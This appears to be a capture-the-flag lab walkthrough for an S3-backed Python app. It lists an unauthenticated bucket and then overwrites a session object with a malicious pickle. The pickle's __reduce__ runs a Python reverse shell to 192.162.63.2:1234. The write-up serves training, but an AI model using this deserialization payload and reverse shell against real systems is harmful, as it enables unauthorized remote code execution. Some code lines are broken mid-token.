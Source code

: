 # S3 Python Object Store

Open the lab link and a VNC session will be opened in a new tab with a browser window showing the appication 

![image](https://user-images.githubusercontent.com/46797181/228726011-7eef8812-b4d2-46de-935d-0708fce89a37.png)

Checking the page source, it shows that components are loaded from the s3 bucket 
![image](https://user-images.githubusercontent.com/46797181/228726536-460404e7-c81a-4dd0-a6af-1566d598ced5.png)

Execute the command `aws --endpoint http://s3.pentesteracademylab.appspot.com --no-sign-request s3 ls s3://assets`

#### Note: This challenge is loaded in PT Academy VNC machine, it works only there, using local machine, HTTP 404 will appear 

There is a `sessions` folder, check with `aws --endpoint http://s3.pentesteracademylab.appspot.com --no-sign-request s3 ls s3://assets/sessions/`

The `sessions` directory has a value, log in the web application with the credentials `guest:guest` as stated in the exercise instructions, then repeat the above command and notice that another session object has been created.

![image](https://user-images.githubusercontent.com/46797181/228727892-28109b46-30da-4462-a938-2e5f79a5521e.png)

Interact with the S3 server using boto3 python library and check the content of the recently created object in `sessions` directory.

```

python
import boto3
from botocore import UNSIGNED
from botocore.config import Config
s3=boto3.client('s3',
endpoint_url='http://s3.pentesteracademylab.appspot.com',config=Config(signature_version=UN
SIGNED))
object =
s3.get_object(Bucket='assets',Key='sessions/43085237187070924862845585858148322582')
data=object['Body'].read()
data
import pickle
pickle.loads(data)
```
![image](https://user-images.githubusercontent.com/46797181/228729251-315b2b6e-e439-4819-a53b-863d683a9c00.png)

Create a python script to generate the required pickle payload and overwrite the recently created object in the `sessions` directory.

```
import pickle
import subprocess
import os
import boto3
from botocore import UNSIGNED
from botocore.config import Config
class Shell(object):
def __reduce__(self):
return (os.system,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.162.63.2\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))
s3=boto3.client('s3',endpoint_url='http://s3.pentesteracademylab.appspot.com',config=Config(signature_version=UNSIGNED))
pickledData=pickle.dumps(Shell())
s3.put_object(Bucket='assets',Key='sessions/43085237187070924862845585858148322582',Body=pickledData)


```






